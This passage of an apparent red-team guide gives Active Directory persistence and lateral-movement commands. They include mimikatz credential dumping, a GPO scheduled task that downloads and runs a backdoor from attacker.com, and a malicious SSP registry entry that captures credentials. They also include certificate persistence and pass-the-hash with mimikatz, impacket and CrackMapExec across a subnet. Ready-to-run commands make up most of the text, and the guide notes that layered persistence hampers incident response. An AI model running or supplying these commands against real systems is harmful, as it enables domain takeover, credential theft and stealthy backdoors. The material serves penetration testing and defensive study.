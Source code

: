 ```bash
# Extract DSRM password hash and use for persistence
mimikatz "token::elevate" "lsadump::sam" "exit"
# Look for local Administrator account hash

# Group Policy Object (GPO) persistence
# Modify existing GPOs to include persistent backdoors
# Create new GPOs linked to high-value OUs
# Add logon scripts, scheduled tasks, or registry modifications

# Using PowerSploit GPO functions
Import-Module .\PowerView.ps1
New-GPOImmediateTask -TaskName "WindowsUpdate" -GPODisplayName "Default Domain Policy" -CommandArguments "-c 'IEX(New-Object Net.WebClient).downloadString(''http://attacker.com/backdoor.ps1'')'" -Force

# Security Support Provider (SSP) persistence
# Install custom SSP to capture credentials
# Copy malicious DLL to system32 and register in registry
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "Security Packages" /t REG_MULTI_SZ /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilsa" /f

# Certificate persistence
# Request certificates for persistence
# Use certificates for authentication after password changes
certreq -new -machine request.inf cert.req
certreq -submit -config "CA01\CA" cert.req cert.cer
certreq -accept cert.cer

# Why multiple persistence methods are necessary:
# - Redundancy ensures continued access
# - Different methods survive different defensive actions
# - Layered persistence complicates incident response
# - Some methods are stealthier than others
# - Provides multiple attack vectors for re-entry
```

## Lateral Movement Techniques

### **Pass the Hash**

**What Pass the Hash is:** Authentication technique using NTLM password hashes directly instead of plaintext passwords to authenticate to remote systems.

**Why Pass the Hash works:** NTLM authentication protocol accepts password hashes, common in Windows environments, and doesn't require password cracking.

```bash
# Pass the Hash execution methods

# Using mimikatz
mimikatz "sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:aad3b435b51404eeaad3b435b51404ee:hash /run:cmd.exe"
# Opens new command prompt with Administrator's hash

# Using impacket-psexec (from Linux)
impacket-psexec domain.local/Administrator@192.168.1.10 -hashes aad3b435b51404eeaad3b435b51404ee:hash
impacket-wmiexec domain.local/Administrator@192.168.1.10 -hashes aad3b435b51404eeaad3b435b51404ee:hash
impacket-smbexec domain.local/Administrator@192.168.1.10 -hashes aad3b435b51404eeaad3b435b51404ee:hash

# Using CrackMapExec
crackmapexec smb 192.168.1.0/24 -u Administrator -H hash --exec-method wmiexec
```